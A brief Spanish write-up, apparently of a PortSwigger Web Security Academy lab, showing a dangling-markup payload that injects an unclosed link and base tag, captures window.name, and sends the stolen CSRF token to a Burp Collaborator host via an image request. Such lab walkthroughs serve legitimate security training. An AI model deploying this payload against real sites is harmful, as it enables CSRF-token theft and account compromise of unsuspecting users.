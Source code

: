 Este laboratorio es muy parecido al anterior, solo que esta vez es mucho mas restrictivo por ello usaremos el siguiente payload en el exploit server. Siendo nuestro servidor de burp collaborator: **58bqpzg2y7rkjz1ffo97gcsnkeq4et.burpcollaborator.net**.

```html
<script>
if(window.name) {
    new Image().src='//58bqpzg2y7rkjz1ffo97gcsnkeq4et.burpcollaborator.net?'+encodeURIComponent(window.name);
    } else {
        location = 'https://ac4f1f601fb90c4a8021091a00f800a2.web-security-academy.net/email?email=%22%3E%3Ca%20href=%22https://acb91fc71f3f0c8a800b093f01b700cf.web-security-academy.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

![](img69.png)

Luego en el burp collaborator extraemos el token csrf.

![](img70.png)
